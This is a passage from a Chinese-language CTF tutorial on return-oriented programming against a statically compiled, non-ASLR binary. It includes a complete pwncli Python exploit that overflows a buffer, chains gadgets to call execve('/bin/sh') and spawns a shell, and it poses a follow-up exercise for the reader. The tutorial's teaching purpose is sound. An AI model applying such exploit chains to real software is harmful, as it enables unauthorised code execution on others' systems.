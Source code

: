 这时候再用 ROPgadget 来搜索 gadgets 就能发现查找速度慢了很多，这是因为静态编译使得程序中 gadgets 数量更多了，这对于 ROP 利用来说是好事，因为我们可以找到更多的有用 gadgets 了.

来看一下现有条件：

-   静态编译的程序，给我们带来了很多 gadgets（如 `syscall;ret`）
-   溢出长度多达 0x100-0x20，这意味着我们可以布置很长的 rop 链
-   没有地址随机化，所以 gadgets 的地址都是固定的，用工具找到后直接拿来用就行

于是根据上面的思路构造出如下 rop 链：

```py
#!/usr/bin/env python3
#-*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from pwncli import *
cli_script()
set_remote_libc('libc.so.6')

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

i2b = lambda c : str(c).encode()
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
debugB = lambda : input("\033[1m\033[33m[ATTACH ME]\033[0m")

syscall_ret = 0x0000000000416c44
pop_rdi_ret = 0x0000000000401862
pop_rsi_ret = 0x000000000040f15e
pop_rdx_ret = 0x000000000040176f
pop_rax_ret = 0x0000000000414df4
str_bin_sh  = next(elf.search(b"/bin/sh\x00"))

ru(b'Give me your data: \n')
payload = b"a"*(0x20+8)
payload += p64(pop_rdi_ret) + p64(str_bin_sh)
payload += p64(pop_rsi_ret) + p64(0)
payload += p64(pop_rdx_ret) + p64(0)
payload += p64(pop_rax_ret) + p64(59)
payload += p64(syscall_ret)
s(payload)

ia()
```

读者不妨试试自己构造上面的 rop 链，下面留给读者一个问题和一个挑战：

>   实际上源程序中本来是没有字符串 "/bin/sh\x00" 的，这个字符串可以放在栈里吗？如果放在栈里那需要对 exp 做出什么样的改变？

---

